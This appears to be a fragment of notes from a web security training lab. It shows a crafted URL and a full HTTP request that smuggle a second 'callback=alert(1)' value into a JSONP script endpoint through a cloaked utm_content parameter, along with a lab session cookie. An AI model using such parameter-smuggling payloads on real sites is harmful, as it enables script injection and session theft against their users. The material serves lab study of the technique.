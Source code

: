 
**/js/geolocate.js?callback=setCountryCookie&utm_content=Asd;callback=alert(1)**


GET /js/geolocate.js?callback=setCountryCookie&utm_content=Asd;callback=alert(1) HTTP/2
Host: 0a5a001904dd342081162b8e001e00fd.web-security-academy.net
Cookie: country=[object Object]; session=9leFNadjTEso1zPQzepvFppgDM3jj0pH
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a5a001904dd342081162b8e001e00fd.web-security-academy.net/post?postId=9
Accept-Encoding: gzip, deflate, br
Priority: u=1
Content-Length: 0




